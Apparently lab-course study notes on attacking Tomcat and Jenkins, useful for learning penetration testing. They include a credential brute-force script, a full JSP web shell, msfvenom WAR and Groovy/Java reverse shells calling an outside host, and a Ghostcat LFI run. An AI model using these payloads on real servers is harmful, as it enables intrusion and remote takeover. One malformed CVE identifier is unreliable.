





- [Attacking Servlet Containers](#attacking-servlet-containers)
  - [Tomcat - Discovery \& Enum](#tomcat---discovery--enum)
    - [Discovery/Fingerprinting](#discoveryfingerprinting)
    - [Enumeration](#enumeration)
  - [Tomcat - Attack](#tomcat---attack)
    - [Tomcat Manager - Login Brute Force](#tomcat-manager---login-brute-force)
    - [Tomcat Manager - WAR File Upload](#tomcat-manager---war-file-upload)
    - [CVE-2020-1938: Ghostcat](#cve-2020-1938-ghostcat)
  - [Jenkins - Discovery \& Enum](#jenkins---discovery--enum)
    - [Discovery/Footprinting](#discoveryfootprinting)
    - [Enumeration](#enumeration-1)
  - [Jenkins - Attack](#jenkins---attack)
    - [Script Console](#script-console)
    - [Miscellaneous Vulns](#miscellaneous-vulns)

---

# Attacking Servlet Containers

## Tomcat - Discovery & Enum

### Discovery/Fingerprinting

Tomcat servers can be identified by the Server header in the HTTP response. If the server is operating behind a reverse proxy, requesting an invalid page should reveal the server and version. Here you can see the that the Tomcat version 9.0.30 is in use.



Custom error pages may be in use that do not leak this version information. In this case, another method of detecting a Tomcat server and version is through the ```/docs``` page.

```bash
d41y@htb[/htb]$ curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat 

<html lang="en"><head><META http-equiv="Content-Type" content="text/html; charset=UTF-8"><link href="./images/docs-stylesheet.css" rel="stylesheet" type="text/css"><title>Apache Tomcat 9 (9.0.30) - Documentation Index</title><meta name="author" 

<SNIP>
```

This is the default documentation page, which may not be removed by administrators. Here is the general folder structure of a Tomcat installation.

```
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib
├── logs
├── temp
├── webapps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work
    └── Catalina
        └── localhost
```

The ```bin``` folder stores scripts and binaries needed to start and run a Tomcat server. The ```conf``` folder stores various configuration files used by Tomcat. The ```tomcat-users.xml``` file stores user credentials and their assigned roles. The ```lib``` folder holds various JAR files needed for the correct functioning of Tomcat. The ```logs``` and ```temp``` folder stores temporary log files. The ```webapps``` folder is the default webroot of Tomcat and hosts all the applications. The ```work``` folder acts as a cache and is used to store data during runtime.

Each folder inside ```webapps``` is expected to have the following structure:

```
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp
    |   └── admin.jsp
    └── web.xml
    └── lib
    |    └── jdbc_drivers.jar
    └── classes
        └── AdminServlet.class   
```

The most important file among these is ```WEB-INF/web.xml```, which is known as the deployment descriptor. This file stores information about the routes used by the application and the classes handling these routes. All compiled classes used by the application should be stored in the ```WEB-INF/classes``` folder. These classes might contain important business logic as well as sensitive information. Any vulnerability in these files can lead to total compromise of the website. The ```lib``` folder stores the libraries needed by that particular application. The ```jsp``` folder stores Jakarta Server Pages (_JSP_), formerly known as JavaServer Pages, which can be compared to PHP files on an Apache server.

Here's an example web.xml file:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE web-app PUBLIC "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN" "http://java.sun.com/dtd/web-app_2_3.dtd">

<web-app>
  <servlet>
    <servlet-name>AdminServlet</servlet-name>
    <servlet-class>com.inlanefreight.api.AdminServlet</servlet-class>
  </servlet>

  <servlet-mapping>
    <servlet-name>AdminServlet</servlet-name>
    <url-pattern>/admin</url-pattern>
  </servlet-mapping>
</web-app>
```

The ```web.xml``` configuration above defines a new servlet named AdminServlet that is mapped to the class ```com.inlanefreight.api.AdminServlet```. Java uses the dot notation to create package names, meaning the path on disk for the class defined above would be: ```classes/com/inlanefreight/api/AdminServlet.class```

Next, a new servlet mapping is created to map requests to ```/admin``` with AdminServlet. This configuration will send any request received for ```/admin``` to the AdminServlet.class class for processing. Thw web.xml descriptor holds a lot of sensitive information and is an important file to check when leveraging a LFI vuln.

The tomcat-users.xml file is used to allow or disallow access to the ```/manager``` and host-manager admin pages.

```xml
<?xml version="1.0" encoding="UTF-8"?>

<SNIP>
  
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary.

  Built-in Tomcat manager roles:
    - manager-gui    - allows access to the HTML GUI and the status pages
    - manager-script - allows access to the HTTP API and the status pages
    - manager-jmx    - allows access to the JMX proxy and the status pages
    - manager-status - allows access to the status pages only

  The users below are wrapped in a comment and are therefore ignored. If you
  wish to configure one or more of these users for use with the manager web
  application, do not forget to remove the <!.. ..> that surrounds them. You
  will also need to set the passwords to something appropriate.
-->

   
 <SNIP>
  
!-- user manager can access only manager section -->
<role rolename="manager-gui" />
<user username="tomcat" password="tomcat" roles="manager-gui" />

<!-- user admin can access manager and admin section both -->
<role rolename="admin-gui" />
<user username="admin" password="admin" roles="manager-gui,admin-gui" />


</tomcat-users>
```

The file shows you what each of the roles manager-gui, manager-script, manager-jmx, and manager-status provide access to. In this example, you can see that a user tomcat with the password tomcat has the manager-gui role, and a second weak password admin is set for the user account admin.

### Enumeration

After fingerprinting the Tomcat instance, unless it has a known vuln, you will typically want to look for the ```/manager``` and the ```/host-manager``` pages. You can attempt to locate these with a tool such as Gobuster or just browse directly to them.

```bash
d41y@htb[/htb]$ gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://web01.inlanefreight.local:8180/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/09/21 17:34:54 Starting gobuster
===============================================================
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)
Progress: 49959 / 87665 (56.99%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2021/09/21 17:44:29 Finished
===============================================================
```

You may be able to either log in to one of these using weak credentials such as tomcat:tomcat, admin:admin, etc. If these first few tries don't work, you can try a password brute force attack against the login page. If you are successful in logging in, you can upload a Web Application Resource or Web Application ARchive (_WAR_) file containing a JSP web shell and obtain RCE on the Tomcat server.

## Tomcat - Attack

### Tomcat Manager - Login Brute Force

You first have to set a few options. Again, you must specify the vhost and the target's IP address to interact with the target properly. You shoud also set ```STOP_ON_SUCCESS``` to ```true``` so the scanner stops when you get a successful login, no use in generating loads of additional requests after a successful login.

```bash
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

As always, you check to make sure everything is set up correctly by ```show options```:

```bash
msf6 auxiliary(scanner/http/tomcat_mgr_login) > show options 

Module options (auxiliary/scanner/http/tomcat_mgr_login):

   Name              Current Setting                                                                 Required  Description
   ----              ---------------                                                                 --------  -----------
   BLANK_PASSWORDS   false                                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                           no        Add all users in the current database to the list
   PASSWORD                                                                                          no        The HTTP password to specify for authentication
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            10.129.201.58                                                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             8180                                                                            yes       The target port (TCP)
   SSL               false                                                                           no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   true                                                                            yes       Stop guessing when a credential works for a host
   TARGETURI         /manager/html                                                                   yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                                               yes       The number of concurrent threads (max one per host)
   USERNAME                                                                                          no        The HTTP username to specify for authentication
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt  no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                                                           no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                            yes       Whether to print output for all attempts
   VHOST             web01.inlanefreight.local                                                       no        HTTP server virtual host
```

You hit run and get a hit for the credential pair ```tomcat```:```admin```.

```bash
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

[!] No active DB -- Credential data will not be saved!
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:vagrant (Incorrect)
[+] 10.129.201.58:8180 - Login Successful: tomcat:admin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

You can also use [this](https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce) Python script to achieve the same result.

```python
#!/usr/bin/python

import requests
from termcolor import cprint
import argparse

parser = argparse.ArgumentParser(description = "Tomcat manager or host-manager credential bruteforcing")

parser.add_argument("-U", "--url", type = str, required = True, help = "URL to tomcat page")
parser.add_argument("-P", "--path", type = str, required = True, help = "manager or host-manager URI")
parser.add_argument("-u", "--usernames", type = str, required = True, help = "Users File")
parser.add_argument("-p", "--passwords", type = str, required = True, help = "Passwords Files")

args = parser.parse_args()

url = args.url
uri = args.path
users_file = args.usernames
passwords_file = args.passwords

new_url = url + uri
f_users = open(users_file, "rb")
f_pass = open(passwords_file, "rb")
usernames = [x.strip() for x in f_users]
passwords = [x.strip() for x in f_pass]

cprint("\n[+] Atacking.....", "red", attrs = ['bold'])

for u in usernames:
    for p in passwords:
        r = requests.get(new_url,auth = (u, p))

        if r.status_code == 200:
            cprint("\n[+] Success!!", "green", attrs = ['bold'])
            cprint("[+] Username : {}\n[+] Password : {}".format(u,p), "green", attrs = ['bold'])
            break
    if r.status_code == 200:
        break

if r.status_code != 200:
    cprint("\n[+] Failed!!", "red", attrs = ['bold'])
    cprint("[+] Could not Find the creds :( ", "red", attrs = ['bold'])
#print r.status_code
```

This is a very straightforward script that takes a few arguments.

You can try out the script with the default Tomcat users and passwords file that the above Metasploit module uses.

```bash
d41y@htb[/htb]$ python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt

[+] Atacking.....

[+] Success!!
[+] Username : b'tomcat'
[+] Password : b'admin'
```

### Tomcat Manager - WAR File Upload

Many Tomcat installations provide a GUI interface to manage the application. This interface is available at ```/manager/html``` by default, which only users assigned the ```manager-gui``` role are allowed to access. Valid manager credentials can be used to upload a packaged Tomcat application (_.WAR file_) and compromise the application. A WAR, or Web Application Archive, is used to quickly deploy web applications and backup storage.



The manager web app allows you to instantly deploy new applications by uploading WAR files. A WAR file can be created using the zip utility. A JSP web shell such as [this](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) can be downloaded and placed within the archive.

```java
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

```bash
d41y@htb[/htb]$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
d41y@htb[/htb]$ zip -r backup.war cmd.jsp 

  adding: cmd.jsp (deflated 81%)
```

Click on "Browse" to select the .war file and then click on "Deploy".



This file is uploaded to the manager GUI, after which the ```/backup``` application will be added to the table.



If you click on "backup", you will get redirected to ```http://web01.inlanefreight.local:8180/backup/``` and get a "404 Not Found" error. You need to specify the ```cmd.jsp``` file in the URL as well. Browsing to ```http://web01.inlanefreight.local:8180/backup/cmd.jsp``` will present you with a web shell that you can use to run commands on the Tomcat server. From here, you could upgrade your web shell to an interactive reverse shell and continue.

```bash
d41y@htb[/htb]$ curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id

<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
Command: id<BR>
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

</pre>
</BODY></HTML>
```

To clean up after yourself, you can go back to the main Tomcat Manager page and click the "Undeploy" button next to the "backups" application after, of course, noting down the file and upload location for your report, which in your example is ```/opt/tomcat/apache-tomcat-10.0.10/webapps```. If you do an ```ls``` on that directory from your web shell, you will see the uploaded ```backup.war``` file and the backup directory containing the cmd.jsp script and META-INF created after the application deploys. Clicking on "Undeploy" will typically remove the uploaded WAR archive and the directory associated with the application.

You could also use msfvenom to generate a malicious WAR file. The payload java/jsp_shell_reverse_tcp will execute a revshell through a JSP file. Browse to the Tomcat console and deploy this file. Tomcat automatically extracts the WAR file contents and deploys it.

```bash
d41y@htb[/htb]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war

Payload size: 1098 bytes
Final size of war file: 1098 bytes
```

Start a nc listener and click on ```/backup``` to execute the shell.

```bash
d41y@htb[/htb]$ nc -lnvp 4443

listening on [any] 4443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 45224


id

uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

The multi/http/tomcat_mgr_upload Metasploit module can be used to automate the process.

[This](https://github.com/SecurityRiskAdvisors/cmd.jsp) JSP web shell is very lightweight and utilizes a Bookmarklet or browser bookmark to execute the JS needed for the functionality of the web shell and user interface. Without it, browsing to an uploaded cmd.jsp would render nothing. This is an excellent option to minimize your footprint and possibly evade detections for standard JSP web shells.

### CVE-2020-1938: Ghostcat

Tomcat was found vulnerable to an unauthenticated LFI in a semi-recent discovery named Ghostcat. All Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable. This vulnerability was caused by a misconfiguration in the AJP protocol used by Tomcat. AJP stands for Apache Jserv Protocol, which is a binary protocol used to proxy requests. This is typically used in proxying requests to application servers behind the front-end web servers.

The AJP service usually running at port 8009 on a Tomcat server. This can be checked out with a targeted Nmap scan:

```bash
d41y@htb[/htb]$ nmap -sV -p 8009,8080 app-dev.inlanefreight.local

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-21 20:05 EDT
Nmap scan report for app-dev.inlanefreight.local (10.129.201.58)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.36 seconds
```

The above scan confirms that ports 8080 and 8009 are open. The PoC code for the vulnerability can be found [here](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi). Download the script and save it locally. The exploit can only read files and folders within the web apps folder, which means that files like ```/etc/passwd``` can't be accessed.

```bash
d41y@htb[/htb]$ python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 

Getting resource at ajp13://app-dev.inlanefreight.local:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

## Jenkins - Discovery & Enum

### Discovery/Footprinting

Jenkins runs on Tomcat port 8080 by default. It also utilizes port 5000 to attach slave servers. This port is used to communicate between masters and slaves. Jenkins can use a local database, LDAP, UNIX user database, delegate security to a servlet container, or use no authentication at all. Administrators can also allow or disallow users from creating accounts.

### Enumeration



The default installation typically uses Jenkins' database to store credentials and does not allow users to register an account. You can fingerprint Jenkins quickly by the tellable login page.


You may encounter a Jenkins instance that uses weak or default credentials such as ```admin:admin``` or does not have any type of authentication enabled. It is not uncommon to find Jenkins instances that do not require any authentication during an internal pentest.

## Jenkins - Attack

### Script Console

The script console allows a user to run Apache Groovy scripts, which are an OOP Java-compatible language. The language is similar to Python and Ruby. Groovy source code gets compiled into Java Bytecode and can run on any platform that has JRE installed.

Using this script console, it is possible to run arbitrary commands, functioning similarly to a web shell. For example, you can use the following snipped to run the ```id``` command.

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```

There are various ways that access to the script console can be leveraged to gain a reverse shell. For example, using the command below, or this [Metasploit](https://web.archive.org/web/20230326230234/https://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console/) module.

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

Running the above commands results in a reverse shell connection.

```bash
d41y@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 57844

id

uid=0(root) gid=0(root) groups=0(root)

/bin/bash -i

root@app02:/var/lib/jenkins3#
```

Against a Windows host, you could attempt to add an user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with Invoke-PowerShellTcp.ps1. You could run commands on a Windows-based Jenkins install using this snippet.

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

You could also use [this](https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy) Java reverse shell to gain command execution on a Windows host, swapping out localhost and the port of your IP address and listener port.

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### Miscellaneous Vulns

Several RCEs exist in various versions of Jenkins. One recent exploit combines two vulns, CVE-2018-1999002 and CVE-2019-10030000 to achieve pre-authenticated RCE, bypassing script security sandbox protection during script compilation. Public exploit PoCs exist to exploit a flaw in Jenkins dynamic routing to bypass the Overall / Read ACL and use Groovy to download and execute a malicious JAR file. This flaw allows users with read permissions to bypass sandbox protections and execute code on the Jenkins master server. This exploit works against Jenkins verion 2.137.

Another vuln exists in Jenkins 2.150.2, which allows users with JOB creation and BUILD privileges to execute code on the system via Node.js. This vuln requires authentication, but if anonymous users are enabled, the exploit will succeed because these users have JOB creation and BUILD privileges by default.